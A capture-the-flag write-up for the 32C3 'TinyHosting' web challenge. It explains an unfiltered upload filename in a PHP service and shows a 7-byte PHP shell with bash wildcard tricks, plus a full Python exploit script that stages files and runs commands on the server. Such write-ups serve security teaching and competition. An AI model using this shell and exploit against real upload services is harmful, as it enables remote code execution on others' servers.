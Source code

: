 ```yaml
---
title: "32C3CTF - TinyHosting (Web 250)"
header:
  image: /assets/images/32c3/tinyhosting/header.png
tags:
  - 32c3
  - writeup
  - web
---
```


A PHP service that allows uploading of small files (<= 7 bytes) with arbitrary
filenames within a browsable path.

## Challenge Description

#### Points

250

#### Description

```
A new file hosting service for very small files. could you pwn it?

http://136.243.194.53/
```

## Solution

In the comments, there is a hint to use `./?src` to obtain the source code to
the index.php.

```html
    <!-- <a href="./?src=">src</a>-->
```

From the returned source, we get some very interesting PHP code:

```php
<?php
    $savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
    if(!is_dir($savepath)){
        $oldmask = umask(0);
        mkdir($savepath, 0777);
        umask($oldmask);
        touch($savepath."/index.html");
    }
    if((@$_POST['filename']) && (@$_POST['content']) ){
        $fp = fopen("$savepath".$_POST['filename'], 'w');
        fwrite($fp, substr($_POST['content'],0,7) );
        fclose($fp);
        $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
    }
?>
```

What the code does is:

1. Create a `$savepath` variable that is derived from the remote user's IP address
   and user agent.
2. Create a directory from the variable that was just derived if it does not exist
   and touch an `index.html`.
3. If the POST parameters `filename` and `content` exists, create a file with the
   provided name containing the first seven bytes of the given content.

Now, obviously since there is no filtering done on the filename, and you are
given the path to the file created, you can create files with the extension `.php`.
However, we only have 7 bytes to play with in the file so the [shortest PHP
shell](https://twitter.com/brutelogic/status/379357222524162049) is out of the
question. Now, our solution was to use bash expansions to execute arbitrary
code. We can put the contents of the following in a file called `z.php` (we will
tell you the reason why it is named so in a bit):

```php
<?=`*`;
```

If we run this in the directory:

```shell
$ php z.php
sh: 1: z.php: not found
```

Notice that it tries to run the `z.php` file.  Now, what happens if there was
another file called "a"?

```shell
$ touch a
$ php z.php
sh: 1: a: not found
```

Looks like bash expansion with * replaces it with the files in the current
directory in alphabetical order:

```shell
$ echo *
a z.php
```

Now, this means that if we can create a series of files that when sorted in
alphabetical order resembles a valid command, our `z.php` script will execute it.
Our final exploit uses the following files:

```shell
$ ls
bash  c.sh  z.php
```

This should run the `c.sh` script with bash as `z.php` as an argument. This means
we can execute any command up to 7 bytes if we put it in the `c.sh` file.

```shell
$ touch bash
$ echo "id" > c.sh
$ *
uid=1000(amon) gid=1000(amon) groups=1000(amon),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Here is the full exploit:

```python
import re
import requests
import random
import sys

location = "http://136.243.194.53/"
seed = random.randint(0, 100000000000)
HEADER = {'User-Agent': 'DystopianNarwhals' + str(seed)}

def launch(stage):
    pat = re.compile(r'File saved to <a>(.+)?</a>')
    req = requests.post(location, data=stage, headers=HEADER)
    locs = pat.findall(req.text)[0]
    return (req.text, locs)

def main():


    cmd = sys.argv[1].strip()

    if len(cmd) > 7:
        print "7 or less."
        exit()

    stage1 = {"filename": "z.php", "content": "<?=`*`;"}
    stage2 = {"filename": "bash", "content": "amon"}
    stage3 = {"filename": "c.sh", "content": cmd}


    locs1 = launch(stage1)[1]
    print "Stage 1 saved to: %s" % locs1

    locs2 = launch(stage2)[1]
    print "Stage 2 saved to %s" % locs2

    locs3 = launch(stage3)[1]
    print "Stage 3 saved to %s" % locs3

    reqr5 = requests.get("http://136.243.194.53/" + locs1)
    print "Result of injection:"
    print reqr5.text

if __name__ == "__main__":
    main()
```

Notice that the User Agent is randomised every time the script is run so that we
get an empty directory and prevent (unlikely) collisions with other players. We
had discovered that the flag was located at `/file_you_are_looking_for` after
some exploration. Running the script gets us the flag:

```shell
$ python exploit.py "cat /f*"
Stage 1 saved to: files/cbfa3423b05463eff64d967062eb8fa8e620000d/z.php
Stage 2 saved to files/cbfa3423b05463eff64d967062eb8fa8e620000d/bash
Stage 3 saved to files/cbfa3423b05463eff64d967062eb8fa8e620000d/c.sh
Result of injection:
32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r
```

Flag: **32c3\_Gr34T\_Th1ng5\_Are\_D0ne\_By\_A\_Ser13s\_0f\_5ma11\_Th1ngs\_Br0ught\_T0ge7h3r**
